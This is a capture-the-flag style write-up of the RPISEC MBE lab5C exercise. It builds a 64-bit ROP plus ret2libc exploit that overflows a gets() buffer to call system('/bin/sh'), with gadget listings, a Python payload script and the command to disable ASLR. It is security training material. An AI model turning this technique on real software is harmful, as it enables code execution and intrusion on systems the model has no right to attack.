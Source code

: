 ### Solving lab5C "03/13 | --[ ROP Lab" (https://github.com/RPISEC/MBE/blob/master/src/lab05/lab5C.c)


### This lab is related to the exploration of DEP/NX.

First I'll talk about the problem I had with compiling the binary. This lab is made for 32-bit architecture and the exploit is also 32-bit based. And my idea was to do it in 64. So, due to some problems with address randomization, I had to add the ``` -no-pie``` flag to compile it. It was compiled like this:

```gcc lab5C.c -o lab5C -fno-stack-protector -no-pie```


As the exploration learned in the slides is for 32 bits, I had to use a technique aimed at 64 bits. I did a step by step of this technique here: https://github.com/geleiaa/lowlevel_things/blob/main/rpisec_mbe_labs/bypass_NX/bypass_NX_explain.md

And now let's see how it was applied in this binary.


Let's look at the source code to see what the binary does.

```c
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector -o lab5C lab5C.c */

char global_str[128];

/* reads a string, copies it to a global */
void copytoglobal()
{
    char buffer[128] = {0};
    gets(buffer);
    memcpy(global_str, buffer, 128);
}

int main()
{
    char buffer[128] = {0};

    printf("I included libc for you...\n"\
           "Can you ROP to system()?\n");

    copytoglobal();

    return EXIT_SUCCESS;
}

```

It looks like simple code. The main prints some text. And the ``` copytoglobal() ``` function does exactly that, it takes what comes from stdin and passes it to the global variable.

Running the binary:

![runbin](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/runbinrop.png)


### To begin the exploration, let's see if we can overflow this buffer that stores the input.

Arriving at the RET of the ```copytoglobal()``` function we see that it was overwritten after 136 bytes of our pattern:

![retoverwrite](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/retoverwriterop.png)


Now that we know how to overwrite the return address of the ```copytoglobal()``` function, let's go with the ROP + ret2libc techniques.


### ROP + ret2libc

For this exploration we will need three things: 1 - address of the ```system()``` function, 2 - an argument to system(), 3 - gadgets that put this argument in the right place.


First the Gadgets. We need a "pop rdi" so that the system() function argument is passed to the RDI register and then passed to the function.

```sh
$ ROPgadget --binary lab5C --ropchain | grep pop
0x000000000040113b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401136 : mov byte ptr [rip + 0x2f03], 1 ; pop rbp ; ret
0x00000000004013ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013b0 : pop r14 ; pop r15 ; ret
0x00000000004013b2 : pop r15 ; ret
0x00000000004013ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013af : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040113d : pop rbp ; ret
0x00000000004013b3 : pop rdi ; ret  <===== this addr
0x00000000004013b1 : pop rsi ; pop r15 ; ret
0x00000000004013ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```


Now let's get the address of the system function:

![sysaddr](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/systemaddr.png)


Lastly, the address of the string "/bin/sh" that we will use as an argument for system()

![binshaddr](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/binshaddr.png)


### Having all the addresses we will put them in the exploit

```py
import sys
import struct

gadget = struct.pack("<Q", 0x00000000004013b3)

binsh_addr = struct.pack("<Q", 0x7ffff7f7f152)

sys_addr = struct.pack("<Q", 0x7ffff7e2fe50)

sys.stdout.buffer.write(b'A'*136 + gadget + binsh_addr + sys_addr)
```


### Now let's run it in GDB and see if it works.


We can see the "pop rdi" gadget followed by "/bin/sh" and system on the stack:


![exp1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop1.png)


After pop rdi is executed we see that "/bin/sh" was passed to the register:

![exp2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop2.png)

And after the system call, GDB finishes executing the binary showing that a process has been started:

![exp3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop3.png)


It seems like everything is fine, the exploit worked in the context of GDB, now let's see outside.

note: It is worth remembering that the machine's ASLR must be disabled otherwise the exploit will not work. To disable it: ```$ sudo sysctl kernel.randomize_va_space=0```


### pwn!

![exp4](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop4.png)



Remembering that the idea of this laboratory was to be done in 32-bit architecture but I decided to do it in 64-bit because it was more current. In 32 bits, it changes the way exploration is done, passing system() function arguments through the stack and not through registers. The rest is basically the same.
